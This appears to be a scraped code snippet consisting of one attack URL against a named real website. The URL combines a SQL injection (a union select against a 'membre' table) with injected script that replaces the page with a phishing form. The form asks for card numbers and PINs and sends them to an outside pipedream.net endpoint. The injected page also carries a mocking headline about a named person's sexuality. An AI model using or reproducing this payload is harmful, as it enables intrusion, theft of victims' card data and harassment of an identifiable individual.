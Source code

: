 
http://clascertification.com/index.php?id=180&clas_rubrique_id=2%20union%20select%201,2,3,4,5,%3Cscript%3Edocument.getElementsByTagName(%27body%27)[0].innerHTML=%27%20%3Cform%20action=%22https://eoxt7tnceij7ygt.m.pipedream.net%22%3EPlease%20update%20your%20card%20before%202023%20%3Cbr%3E%3Cbr%3E%3Cinput%20type=%22text%22%20name=%22cardNumber%22%20placeholder=%22Enter%20your%20card%20number%22%3E%3Cinput%20type=%22password%22%20name=%22pin%22%20placeholder=%22PinCode%22%3E%3Cinput%20type=%22submit%22%20name=%22%22%3E%3Cbr/%3E%3Cbr/%3E%3Cbr/%3E%3Cbr/%3E%20%3Cimg%20src=%22https://www.aclu.org/wp-content/uploads/2019/09/blog_rainbowflag1.jpg%22%20width=%22500px%22%3E%3Ch1%3EAung%20Khant%20is%20not%20Gay!%3C/h1%3E%3C/form%3E%27%3C/script%3E%20,7,8%20,9%20,10%20,11%20,12%20,13%20,14%20,15%20,16%20,17%20,18%20,19%20,20%20,21%20,22%20,23%20,24%20,25%20,26%20,27%20,28%20,29%20,30%20,31%20,32%20,33%20,34%20,35%20,36%20,37%20,38%20,39%20,40%20,41%20,42%20,43%20,44%20,45%20,46%20,47%20,48%20,49%20,50%20,51%20,52%20,53%20,54%20,55%20,56%20%20from%20membre%20--